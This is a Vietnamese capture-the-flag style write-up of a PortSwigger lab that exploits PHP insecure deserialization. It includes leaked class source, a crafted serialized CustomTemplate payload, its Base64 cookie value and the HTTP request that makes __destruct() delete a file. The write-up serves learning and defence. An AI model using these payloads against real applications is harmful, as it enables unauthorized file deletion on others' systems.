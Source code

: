 # Write-up: Arbitrary object injection in PHP

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi cookie `session` chứa dữ liệu serialized được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách phân tích source code của `CustomTemplate.php`, kẻ tấn công tạo một đối tượng `CustomTemplate` với thuộc tính `lock_file_path` trỏ đến `/home/carlos/morale.txt`, tận dụng magic method `__destruct()` để xóa tệp khi object bị hủy, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách tạo đối tượng `CustomTemplate` serialized với `lock_file_path` trỏ đến `/home/carlos/morale.txt`, kích hoạt xóa tệp thông qua `__destruct()`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát trong Burp Proxy HTTP history, request tới source code:  
  ![login](./images/1_login.png)
  ```
  GET /libs/CustomTemplate.php~ HTTP/2
  Host: 0a8h006g07hi8901c0de056700fg00dc.web-security-academy.net
  ```  
- **Phản hồi**: Lộ source code:  
  ```php
  <?php

  class CustomTemplate {
      private $template_file_path;
      private $lock_file_path;

      public function __construct($template_file_path) {
          $this->template_file_path = $template_file_path;
          $this->lock_file_path = $template_file_path . ".lock";
      }

      private function isTemplateLocked() {
          return file_exists($this->lock_file_path);
      }

      public function getTemplate() {
          return file_get_contents($this->template_file_path);
      }

      public function saveTemplate($template) {
          if (!isTemplateLocked()) {  // thiếu $this-> trước isTemplateLocked()
              if (file_put_contents($this->lock_file_path, "") === false) {
                  throw new Exception("Could not write to " . $this->lock_file_path);
              }
              if (file_put_contents($this->template_file_path, $template) === false) {
                  throw new Exception("Could not write to " . $this->template_file_path);
              }
          }
      }

      function __destruct() {
          // Carlos thought this would be a good idea
          if (file_exists($this->lock_file_path)) {
              unlink($this->lock_file_path);
          }
      }
  }

  ?>
  ```  
- **Phân tích**:  
  - Cookie `session` chứa dữ liệu serialized, được unserialize khi xử lý request.  
  - Magic method `__destruct()` trong `CustomTemplate` gọi `unlink($this->lock_file_path)` khi object bị hủy, xóa tệp tại đường dẫn `$lock_file_path`.  
  - Nếu attacker gán `$lock_file_path = "/home/carlos/morale.txt"`, tệp `/home/carlos/morale.txt` sẽ bị xóa khi object được unserialize và hủy.
2. **Kiểm tra lỗ hổng Insecure Deserialization**  
- **Ý tưởng khai thác**:  
  - Tạo đối tượng `CustomTemplate` serialized với `lock_file_path` trỏ đến `/home/carlos/morale.txt`.  
  - Khi server unserialize cookie, object `CustomTemplate` được tạo, và khi bị hủy, `__destruct()` gọi `unlink("/home/carlos/morale.txt")`, xóa tệp.  
- **Payload**:  
  ```php
  O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
  ```  
- **Giải thích payload**:  
  - Tạo đối tượng `CustomTemplate` với `lock_file_path` là `/home/carlos/morale.txt`.  
  - Khi unserialize, `__destruct()` chạy và xóa tệp `/home/carlos/morale.txt`:  
    ![Payload serialized](./images/2_encode_objects.png)  

3. **Khai thác (Exploitation)**  
- Đăng nhập với tài khoản `wiener:peter`, lấy cookie `session` từ Burp Proxy.  
- Mã hóa payload thành Base64:  
  ```
  TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
  ```  
- Thay thế cookie `session` trong request:  
  ```
  GET / HTTP/2
  Host: 0a8h006g07hi8901c0de056700fg00dc.web-security-academy.net
  Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
  ```  
- Gửi request qua Burp Repeater:  
  - Server unserialize cookie, tạo object `CustomTemplate`, và khi object bị hủy, `__destruct()` xóa tệp `/home/carlos/morale.txt`:  
    ![Payload thực thi unlink](./images/3_repeater.png)  
- **Ý tưởng payload**:  
  - Tạo đối tượng `CustomTemplate` serialized với `lock_file_path` trỏ đến `/home/carlos/morale.txt`, tận dụng `__destruct()` để xóa tệp.  
- **Kết quả**:  
  - Lab xác nhận tệp `/home/carlos/morale.txt` bị xóa, hoàn thành lab:  
    ![Lab hoàn thành](./images/4_solved.png)  

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** trong PHP bằng cách tạo đối tượng `CustomTemplate` serialized, tận dụng magic method `__destruct()` để thực thi lệnh xóa tệp (`unlink`).  
- Nhận thức tầm quan trọng của việc tránh deserialize dữ liệu người dùng, sử dụng digital signature để kiểm tra tính toàn vẹn, kiểm tra nghiêm ngặt kiểu dữ liệu, hoặc thay thế bằng định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong PHP, nhấn mạnh tầm quan trọng của việc bảo vệ dữ liệu serialized và sử dụng các biện pháp kiểm tra an toàn để ngăn chặn thực thi lệnh tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*